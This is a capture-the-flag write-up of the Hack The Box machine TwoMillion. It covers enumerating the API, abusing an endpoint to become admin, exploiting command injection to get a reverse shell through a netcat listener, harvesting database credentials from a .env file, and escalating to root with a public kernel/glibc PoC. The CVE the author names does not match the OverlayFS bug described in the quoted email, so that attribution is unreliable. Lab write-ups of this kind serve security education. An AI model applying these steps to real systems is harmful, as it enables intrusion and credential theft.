 ```yaml
---
title: HTB TwoMillion - Writeup
date: 2025-07-15 13:53:00 +0330
categories: [Writeup]
tags: [api,cve]
description: My writeup of TwoMillion from Hack The Box 

---
```


![infocard](assets/img/TwoMillion.png)

## - **Introduction**
The initial process to get a foothold was to first find an invite code so that we can sign up, then we used an API endpoint to change our role to Administrator. After that, we find out that there is a Command Injection vulnerability in one of the admin endpoints and so we got a reverse shell from the box.

## - **Recon & Enum**
##### Port Scanning
To start off our recon we will begin with an Nmap scan of the machine:
```shell
$ sudo nmap -sC -sV -oN 2mil_nmap --min-rate=1000 10.10.11.221
```
```
Nmap scan report for 10.10.11.221
Host is up (0.52s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

>I always perform a full scan with then `-p-` flag to make sure no port is left behind but I am not including that here as we only have two tcp ports open.
{: .prompt-info }

```shell
$ sudo echo "10.10.11.221\t2million.htb" >> /etc/hosts
```

>We need to add the 2million.htb hostname to `/etc/hosts`.
{: .prompt-tip }
---
##### Creating an Account and finding the vulnerability
After browsing the site for a bit, I found two interesting pages, `/login` and `/invite` but to actually sign up we needed an invite code.
So after analyzing the requests in burp, I noticed the api nodes.

![login](assets/img/twomillion_burp_login.png)
![verify](assets/img/twomillion_burp_verify.png)
so I tried brute forcing api endpoints using gobuster and I found `/api/v1/invite/generate`.
```shell
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
```
```
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://2million.htb/api/v1/invite -b 301
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://2million.htb/api/v1/invite
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   301
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/verify               (Status: 405) [Size: 0]
/generate             (Status: 405) [Size: 0]
Progress: 18806 / 1273833 (1.48%)
```
So I used burp to send a POST request and got a response with an invite code (base64 encoded).

![invitecode](assets/img/twomillion_burp_invite.png)

After creating an account and logging in, only a few pages were accessible. I got a little stuck at first but when I tried accessing `/api` again, it authorized and I got a view of every API endpoint.

![api](assets/img/twomillion_api_v1.png)

Here `/admin/setting/update` caught my eye , I started playing around with it in burp and changed my role to admin.


![update](assets/img/twomillion_burp_update.png)

## - **Foothold**
Now this is were I got stuck for quite some time, but eventually I got it.  
The `/api/v1/admin/vpn/generate` and `/api/v1/user/vpn/generate` endpoints interact with the OS, so I tried injecting commands.
Though I have to say at first I didn't see it because the responses were empty. To make sure, I set up a `netcat` listener and made a request back to myself.

![update](assets/img/twomillion_cmd.png)

```shell
$ nc -nvlp 9070
```
```
listening on [any] 9070 ...
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 52748
GET / HTTP/1.1
Host: 10.10.16.42:9070
User-Agent: curl/7.81.0
Accept: */*
```

And here comes the reverse shell...
```
connect to [10.10.16.42] from (UNKNOWN) [10.10.11.221] 42046
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2million:~/html$ id    
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@2million:~/html$
```

## - **User**
Getting the user was just waaay too easy. Looking at the files in `html` folder, there is a `.env` file. What was inside you may ask, DATABASE CREDENTIALS!
```
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=*****************
```

```
www-data@2million:~/html$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

And tada!

```
admin@2million:~$ cat user.txt
59f625d****************eebc95d5e
```

## - **Root**
Using linpeas and looking around myself I found an email which directly pointed to the vulnerability we'll use to escalate privileges.
```
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Googled a bit and found out the email is referring to `CVE-2023-4911` and I used this [POC](https://github.com/NishanthAnand21/CVE-2023-4911-PoC) to get root.
>You can use `python3 -m http.server` to send files to the victim machine.
{: .prompt-tip }

```
admin@2million:/tmp$ python3 genlib.py 
admin@2million:/tmp$ chmod +x titap
admin@2million:/tmp$ ./titap
# whoami
root
# id
uid=0(root) gid=1000(admin) groups=1000(admin)
```

And the flag

```
# cd /root
# cat root.txt 
5b5c6****************90556050597
```

DONE!

![update](assets/img/twomillion_congrats.png)

Thanks for reading!
